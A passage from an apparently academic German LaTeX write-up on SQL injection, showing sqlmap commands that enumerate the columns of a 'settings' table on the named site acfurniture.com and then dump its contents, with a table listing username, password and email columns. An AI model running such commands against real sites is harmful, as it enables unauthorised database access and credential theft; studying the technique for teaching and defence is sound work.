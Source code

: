 Bisher wurde festgestellt, dass die Webseite \texttt{acfurniture.com} zwei Datenbanken aufweist, \texttt{acfurniture} und \texttt{information\_schema}. Die Datenbank \texttt{acfurniture} enthält vier Tabellen: \texttt{category}, \texttt{product}, \texttt{product\_hacked} und settings.\\

\textbf{C. Spalten aufdecken}\\

\begin{LaTeXCode}[caption={Aufdeckung von Spalten\cite{ramadhan17sqlinj}},captionpos=b, label=LaTeXCode:advs1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/artikel.php?id=1225" -D acfurniture -T settings --columns
\end{LaTeXCode}

\begin{table}[h]
	\centering
	\begin{tabular}{|l|l|}
		\hline
		Database:          & acfurniture      \\ \hline
		Table              & settings         \\ \hline
		\multicolumn{2}{|l|}{{[}6 columns{]}} \\ \hline
		Column             & Type             \\ \hline
		activationcode     & varchar(2048)    \\ \hline
		email              & varchar(45)      \\ \hline
		id                 & int(11)          \\ \hline
		password           & varchar(1024)    \\ \hline
		status             & smallint(2)      \\ \hline
		username           & varchar(45)      \\ \hline
	\end{tabular}
	\caption{Ergebnis: Spalten}
\end{table}

Die Tabelle \texttt{settings} besteht aus sechs Spalten und ist ein Konto mit Anmeldeinformationen. Es wird versucht, diese Informationen auszugeben.\\

\textbf{D. Informationen aufdecken}\\

Man kann alle Daten in der Tabelle mit folgendem Befehl ausgeben:

\begin{LaTeXCode}[caption={Aufdeckung aller Daten in der Tabelle \cite{ramadhan17sqlinj}},captionpos=b, label=LaTeXCode:alledatenausgeben1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=1225" -D acfurniture -T settings --dump
\end{LaTeXCode}

